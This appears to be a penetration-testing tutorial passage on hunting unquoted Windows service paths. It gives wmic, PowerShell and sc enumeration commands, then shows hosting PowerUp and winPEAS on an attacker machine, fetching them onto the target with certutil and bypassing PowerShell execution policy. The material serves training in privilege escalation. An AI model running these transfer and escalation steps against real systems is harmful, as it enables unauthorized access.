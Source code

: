 ```yaml
---
legal-banner: true
---
```


### **Hunting for unquoted services manually**

1.  First, check the privileges of the current user:  
    `whoami /priv`

    ![](../../../../img/Windows-Environment/67.png)

    **Note:**  
    The `SeShutdownPrivilege` allows restarting a machine. Even if you lack permissions to directly stop/start a service, restarting the machine will also restart the service, enabling exploitation.  
    This privilege can still be used when shown as "Disabled" because it is only disabled for the current session.
    
2.  Manually hunt for unquoted service paths with `cmd`:  
    `wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """`  
    
    ![](../../../../img/Windows-Environment/68.png)
    
3.  Manually hunt for unquoted service paths with PowerShell:  
    `Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName`

    ![](../../../../img/Windows-Environment/69.png)

    **Note:**  
    Both commands confirm that the `unquotedsvc` service has an unquoted path and is configured as a **Manual** service.
    
4.  Check service path configuration and permissions to start the service:  
    `sc sdshow unquotedsvc`

    ![](../../../../img/Windows-Environment/70.png)

### **Hunting for unquoted services with PowerUp**

1.  If you don’t already have PowerUp, download it:  
    `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`

    ![](../../../../img/Windows-Environment/71.png)
    
2.  Host the script using Python:  
    `python3 -m http.server 8000`

    ![](../../../../img/Windows-Environment/72.png)
    
3.  Transfer the script to the target with `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/PowerUp.ps1 PowerUp.ps1`

    ![](../../../../img/Windows-Environment/73.png)
    
4.  Bypass the PowerShell execution policy and run PowerUp:  
    `powershell -ep bypass -c "& {.\PowerUp.ps1}"`

    ![](../../../../img/Windows-Environment/74.png)

    **Note:**  
    PowerUp can enumerate misconfigurations and sometimes exploit them.  
    However, finding an unquoted service path does not always mean it’s exploitable. PowerUp may suggest an `AbuseFunction`, assuming exploitation is possible.

### **Hunting for unquoted services with winPEAS**

1.  Since the target is a 64-bit OS, host the 64-bit `winPEAS` binary:  
    `python3 -m http.server 8000`

    ![](../../../../img/Windows-Environment/75.png)
    
2.  Transfer it to the target using `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/winPEASx64.exe winPEASx64.exe`

    ![](../../../../img/Windows-Environment/76.png)
    
3.  Use the `servicesinfo` filter to search for unquoted service paths:  
    `.\winPEASx64.exe quiet servicesinfo`

    ![](../../../../img/Windows-Environment/77.png)

    **Note:**  
    In the `winPEAS` output, red and yellow highlights often indicate important findings such as unquoted service paths. Focus your attention there.
